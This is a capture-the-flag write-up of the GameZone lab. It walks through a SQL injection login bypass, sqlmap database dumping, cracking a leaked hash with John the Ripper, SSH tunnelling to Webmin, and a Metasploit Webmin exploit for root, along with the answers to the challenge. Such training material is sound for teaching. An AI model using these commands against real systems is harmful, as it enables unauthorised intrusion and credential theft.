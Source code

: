 ﻿# **[Task 1] Deploy the vulnerable machine**

**#1** Deploy the machine and access its web server.

![](https://miro.medium.com/max/60/1*spfKfRiwCUlV2SZZDH0PvQ.png?q=20)

![](https://miro.medium.com/max/730/1*spfKfRiwCUlV2SZZDH0PvQ.png)

**#2** What is the name of the large cartoon avatar holding a sniper on the forum?

agent 47

# **[Task 2] Obtain access via SQLi**

**#1** SQL is a standard language for storing, editing and retrieving data in databases.

**#2** Lets use what we’ve learnt above, to manipulate the query and login without any legitimate credentials.

Log in : ' or 1=1 #

![](https://miro.medium.com/max/56/1*N6eGZ1XfeT9XecjeyFXObQ.png?q=20)

![](https://miro.medium.com/max/786/1*N6eGZ1XfeT9XecjeyFXObQ.png)

**#3** GameZone doesn’t have an admin user in the database, however you can still login without knowing any credentials using the inputted password data we used in the previous question.

http://10.10.73.54/portal.php

![](https://miro.medium.com/max/60/1*MwfHmq8JIhC1_d1fuQlc8g.png?q=20)

![](https://miro.medium.com/max/693/1*MwfHmq8JIhC1_d1fuQlc8g.png)

When you’ve logged in, what page do you get redirected to?

portal.php

# **[Task 3] Using SQLMap**

**#1** We’re going to use SQLMap to dump the entire database for GameZone.

sqlmap -u "http://10.10.73.54/portal.php" --data="searchitem=cyberops" --dbs

![](https://miro.medium.com/max/60/1*7sRC6Fp9UC8staxWYn3yfQ.png?q=20)

![](https://miro.medium.com/max/266/1*7sRC6Fp9UC8staxWYn3yfQ.png)

sqlmap -u "[http://10.10.73.54/portal.php](http://10.10.73.54/portal.php)" --data="searchitem=cyberops" -D db --tablessqlmap -u "[http://10.10.73.54/portal.php](http://10.10.73.54/portal.php)" --data="searchitem=cyberops" -D db -T users --culumnssqlmap -u "[http://10.10.73.54/portal.php](http://10.10.73.54/portal.php)" --data="searchitem=cyberops" -D db -T users -C username,pwd --dump

![](https://miro.medium.com/max/60/1*yA4zLrTilxh_uSXR9vloIA.png?q=20)

![](https://miro.medium.com/max/743/1*yA4zLrTilxh_uSXR9vloIA.png)

In the users table, what is the hashed password?

ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

**#2** What was the username associated with the hashed password?

agent47

**#3** What was the other table name?

post

![](https://miro.medium.com/max/60/1*z42M2uMvMElRqb7zM-GdAQ.png?q=20)

![](https://miro.medium.com/max/147/1*z42M2uMvMElRqb7zM-GdAQ.png)

# **[Task 4] Cracking a password with JohnTheRipper**

**#2** What is the de-hashed password?

echo "ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14" > pwdjohn pwd --format=Raw-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt

![](https://miro.medium.com/max/60/1*PK0dhtnO9-2_CbyWKeJA0Q.png?q=20)

![](https://miro.medium.com/max/958/1*PK0dhtnO9-2_CbyWKeJA0Q.png)

videogamer124

**#3** Now you have a password and username. Try SSH’ing onto the machine.

ssh agent47@10.10.73.54

![](https://miro.medium.com/max/60/1*Xe_FTCwnE1RgYTL9xB44Zg.png?q=20)

![](https://miro.medium.com/max/726/1*Xe_FTCwnE1RgYTL9xB44Zg.png)

What is the user flag?

cat /home/agent47/user.txt

# **[Task 5] Exposing services with reverse SSH tunnels**

**#1** How any TCP sockets are running?

ss -tulpn

![](https://miro.medium.com/max/60/1*uly7lNnNTzQDr6rOy1nKKw.png?q=20)

![](https://miro.medium.com/max/889/1*uly7lNnNTzQDr6rOy1nKKw.png)

5

**#2** We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!

ssh -L 10000:localhost:10000 agent47@10.10.73.54

![](https://miro.medium.com/max/60/1*mIt1tCnLIrYivsHJO4skAQ.png?q=20)

![](https://miro.medium.com/max/726/1*mIt1tCnLIrYivsHJO4skAQ.png)

http://localhost:10000/

![](https://miro.medium.com/max/60/1*_Vc9W2WuHiR79JQRGgvV4A.png?q=20)

![](https://miro.medium.com/max/799/1*_Vc9W2WuHiR79JQRGgvV4A.png)

User : agent47  
Pass : videogamer124

![](https://miro.medium.com/max/60/1*GgmHS0_Z5cSzo3eW-rrYTw.png?q=20)

![](https://miro.medium.com/max/799/1*GgmHS0_Z5cSzo3eW-rrYTw.png)

What is the name of the exposed CMS?

webmin

**#3** What is the CMS version?

1.580

# **[Task 6] Privilege Escalation with Metasploit**

msfconsole

![](https://miro.medium.com/max/60/1*i9e8QhCgbx1q1BbwTLB_oQ.png?q=20)

![](https://miro.medium.com/max/639/1*i9e8QhCgbx1q1BbwTLB_oQ.png)

use exploit/unix/webapp/webmin_show_cgi_exec  
set RHOSTS localhost  
set USERNAME agent47  
set PASSWORD videogamer124  
set SSL false  
exploit

![](https://miro.medium.com/max/60/1*GE0_nv9tdMPmhxcbfNw9vw.png?q=20)

![](https://miro.medium.com/max/950/1*GE0_nv9tdMPmhxcbfNw9vw.png)

python -c ‘import pty; pty.spawn(“/bin/bash”)’

![](https://miro.medium.com/max/60/1*gbRug2fFnk9w2f7SkKclkA.png?q=20)

![](https://miro.medium.com/max/446/1*gbRug2fFnk9w2f7SkKclkA.png)

**#1** What is the root flag?

cat /root/root.txt

![](https://miro.medium.com/max/60/1*3YiS9MZUVOqMmwS3OMlcnA.png?q=20)

![](https://miro.medium.com/max/824/1*3YiS9MZUVOqMmwS3OMlcnA.png)
